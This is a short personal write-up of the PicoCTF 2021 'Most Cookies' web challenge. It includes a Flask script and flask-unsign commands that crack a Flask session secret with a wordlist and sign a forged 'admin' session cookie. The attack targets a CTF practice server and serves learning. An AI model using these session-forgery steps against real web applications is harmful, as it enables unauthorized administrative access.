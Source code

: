 flask session secret finding 
[flask-unsign]([flask-unsign · PyPI](https://pypi.org/project/flask-unsign/))
[write-up]([PicoCTF2021-Writeup/MostCookies.md at main · vivian-dai/PicoCTF2021-Writeup (github.com)](https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Web%20Exploitation/Most%20Cookies/MostCookies.md))

## Failed attempt

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import sys
app = Flask(__name__)
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
number = 1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1
app.secret_key = cookie_names[number]
url = "http://mercury.picoctf.net:18835/display"
@app.route("/")
def home():
    # for _ in cookie_names:
        # app.config['SECRET_KEY'] = _
    session["very_auth"] = "admin"
    print(request.cookies.get('session'))
    with open("./cookies.txt") as tst_:
        data = tst_.read()
    with open("./cookies.txt", "w") as tst:
        tst.write(data + request.cookies.get('session')+"\n")
    return "done!!"
@app.route("/check")
def check():
    return session['very_auth']
app.run(port=3000, debug=True)
```

## Successfull attempt

```bash
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y9Z1cQ.f-uq0wdZOFJBOQYODSL4Hpji3Zc" -w wordlist.txt  
```
for finding secret

```bash
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'fortune'
```

To encode the cookie

![[Pasted image 20230129192058.png]]
